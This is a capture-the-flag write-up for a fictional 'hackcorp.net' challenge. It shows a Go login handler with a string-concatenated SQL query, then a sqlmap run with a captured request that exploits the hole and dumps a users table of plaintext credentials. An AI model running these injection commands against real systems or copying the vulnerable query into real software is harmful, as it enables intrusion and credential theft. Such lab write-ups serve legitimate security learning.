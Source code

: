 
# Description

```
Another one ? What could this be about ? Please break into it !

Intelligent bruteforcing (your own script) is recommended. The flag follows the format: 4T${<hex_key>}. The flag for this challenge will be annotated P6.
```

# Provided files

`login.go`
```go
package web

import (
	"fil-rouge/internal/db"
	"net/http"

	"github.com/labstack/echo/v4"
)

type LoginRequest struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func Login(s *Server) func(c echo.Context) error {
	return func(c echo.Context) error {
		var req LoginRequest
		if err := c.Bind(&req); err != nil {
			return err
		}

		// Get the user from database
		var user db.User
		db.DB.QueryRow("SELECT * FROM users WHERE login = '"+req.Username+"' AND password = '"+req.Password+"'").Scan(&user.ID, &user.Login, &user.IsAdmin, &user.Password)

		return c.JSON(http.StatusServiceUnavailable, map[string]interface{}{
			"status":  "error",
			"message": "I could contact the database but the service is down, come back later",
		})
	}
}
```

# Information from step 5

`dump` file containing a memory dump


# Write Up

Back to my beloved `string` command I ran

```bash
strings dump | grep 'hackcorp.net'
```

And it prompted me with some new hackcorp.net subdomains, especially
- https://admin1-aez.hackcorp.net

![](../attachments/Pasted%20image%2020241111122046.png)

Reading the small lines, I saw that 
- `/db.sqlite` contained a previous database leakage which I downloaded.
- The API may not work correctly
- We can log in using `/USERNAME/PASSWORD`

```bash
sqlite3 db.sqlite
```

```sql
sqlite> select sql from sqlite_master;
CREATE TABLE users (id integer not null primary key, login text, is_admin boolean, password text)
```
*Based on that we can see the database structure and extract some credentials (they were not working)*
```sql
sqlite> select * from users;
1|jd44|0|q1Ob8Lrt4yZdnzQ7hyLbK8UfhB8Cp7mN
2|Jack.fleuyr|0|6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn
3|jane.doe|0|Me12952zHrNuBOeSCLvr8ZKD0pR6myf2
```

As we are provided with the `login.go` source code, we can see that the login form is vulnerable to a Blind Time Based SQL Injection. 
So I captured a request in BurpSuite and run sqlmap as a barbarian.

`req.txt`
```
POST /api/v1/login HTTP/2
Host: admin1-aez.hackcorp.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://admin1-aez.hackcorp.net/
Content-Type: application/json
Content-Length: 41
Origin: https://admin1-aez.hackcorp.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"*","password":"*"}
```

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --dbms=sqlite3 --random-agent --technique=BTU --dump -T users -C id,login,id_admin,password
```

After some time, the database was dumped

```sql
+------+--------------+----------+----------------------------------+
| id   | login        | is_admin | password                         |
+------+--------------+----------+----------------------------------+
| NULL | Jack.fleuyr  | 0        | 6O4pa4uqTerQmOPxCQm1cCU3xxvJ5xtn |
| NULL | theadmin0000 | 1        | e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL |
| NULL | jd44         | 0        | VFv2Qv9G0WuGFu0HTctBDnXLsJffmenB |
| NULL | Jack.fleuyr  | 0        | KE3gbRSnnxHgjmH1tcWYR3daptNw09ty |
| NULL | jane.doe     | 0        | heGS8Dcsvaht2gx3URFxUur3QDujCZCq |
| NULL | jd44         | 0        | xuMH5c0zxR1bjvikC3gD8pVMA0rOvfe0 |
| NULL | Jack.sdvz    | 0        | 6sJqUDj5Bbs8fXrJoPF8KjIaTtyE2i7N |
| NULL | jane.doe     | 0        | 5Aar3s6G78yfBXyQE10kquRORIS3aaan |
| NULL | owen.perkins | 0        | qB7BeivnTM9zMQcpFJAdpsuVoJJkny2  |
| NULL | agent.x      | 0        | 9d6QxAzQUexCJJs7CQtY5hsa4CgxbuU  |
+------+--------------+----------+----------------------------------+
```

Logging in with `theadmin000` worked
- https://admin1-aez.hackcorp.net/theadmin0000/e5kVZVjn6XVzYi122RdEF4Jsx1mPEKnL

![](../attachments/Pasted%20image%2020241111123137.png)

# Flag

`4T${83c2613a2df6abaceec3fa7f32ed63d9}`

# Next

- [4. The Alert](4.%20The%20Alert.md)
- [7. Final](7.%20Final.md)